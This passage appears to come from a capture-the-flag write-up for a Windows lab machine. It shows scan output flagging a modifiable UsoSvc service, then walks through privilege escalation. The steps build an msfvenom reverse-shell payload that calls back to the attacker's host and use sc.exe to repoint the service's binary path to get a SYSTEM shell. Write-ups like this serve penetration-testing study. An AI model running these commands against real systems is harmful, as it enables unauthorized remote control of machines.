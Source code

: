 The most interesting parts of this scan were:

```bash
+] Modifiable Services
 [?] Check if you can modify any service https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#services
  LOOKS LIKE YOU CAN MODIFY SOME SERVICE/s:
  UsoSvc: AllAccess, Start
```
and...

```bash
[+] Installed Applications --Via Program Files/Uninstall registry--
 [?] Check if you can modify installed software https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#software
  C:\Program Files (x86)\TeamViewer\Version7
```

# Privilege Escalation #1

To exploit the UsoSvc service, we will create a malicious file and add it to the service path so it is ran as SYSTEM.

First create the payload on your local machine with msfvenom:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=LOCAL_IP LPORT=LOCAL_PORT -f exe > shell.exe
```

Download the shell on to the target with curl or whatever you want to use and then modify the service path.

```powershell
PS C:\windows\temp> sc.exe stop UsoSvc

SERVICE_NAME: UsoSvc 
        TYPE               : 30  WIN32  
        STATE              : 3  STOP_PENDING 
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x3
        WAIT_HINT          : 0x7530
PS C:\windows\temp> sc.exe config UsoSvc binPath="C:\windows\temp\shell.exe"
[SC] ChangeServiceConfig SUCCESS
PS C:\windows\temp> sc.exe start UsoSvc
```

Once you restart the service, this will trigger a SYSTEM shell on your listener.

![system_shell](/assets/img/posts/remote/system_shell.png)
